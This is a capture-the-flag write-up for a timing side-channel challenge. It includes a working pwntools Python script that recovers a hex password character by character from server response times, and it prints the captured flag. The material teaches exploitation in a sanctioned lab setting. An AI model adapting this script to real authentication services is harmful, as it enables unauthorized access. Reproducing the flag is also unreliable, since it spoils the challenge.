

# Time will tell

**Description:**

<small>Author: @aenygma</small><br><br>A side channel timing attack. <br> Figure out the password in 90 seconds before connection terminates. <br> The password is dynamic and changes every connection session. <br>
<br><b>NOTE, the password is eight characters long and will be hexadecimal.</b> <br><br> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


**Category:** Miscellaneous

**Difficulty:** medium

**File:** [app.py](app.py)

## Solution

Since this challenge is a timing attack, I leveraged response time differences to infer the correct password character by character. The idea was to guess each character of the password and measure how long the server took to respond. A longer response time indicated a partial match, allowing to progressively build the correct password.

Using `pwntools` for connection handling and crafted this script

Used the following python script 
```python
from pwn import *
import time

HOST = 'challenge.ctf.games'
PORT = 31435
hex_chars = '0123456789abcdef'
NUM_TRIALS = 1  # 1=a , 2=aa -> better avg + longer runtime 

def measure_response_time(conn, guess):
    total_time = 0.0
    for _ in range(NUM_TRIALS):
        conn.sendline(guess.encode())
        start_time = time.perf_counter()
        
        try:
            conn.recvuntil(b': ', timeout=5)
        except EOFError:
            break
        except Exception as e:
            print(f"Error: {e}")
            break

        end_time = time.perf_counter()
        total_time += (end_time - start_time)

    return total_time / NUM_TRIALS

def find_password(conn):
    password = ''
    for position in range(8):
        best_time = 0
        best_char = ''
        for char in hex_chars:
            guess = password + char + '0' * (7 - position)
            response_time = measure_response_time(conn, guess)
            print(f"Trying {guess}: {response_time:.4f} seconds")
            if response_time > best_time:
                best_time = response_time
                best_char = char
        password += best_char
        print(f"Found character {position + 1}: {best_char}")
    return password

# Main execution block
conn = remote(HOST, PORT)
data = conn.recvuntil(b': ', timeout=5)
print("Server says:")
print(data.decode())

password = find_password(conn)
print(f"Password found: {password}")

conn.sendline(password.encode())
try:
    response = conn.recvall(timeout=5).decode()
except EOFError:
    response = ''
print("Server response:")
print(response)
conn.close()
```

Running the script allowed to derive the correct pasword and received the flag of `flag{ab6962e29ed608c0710dbf2910f358d5}`  
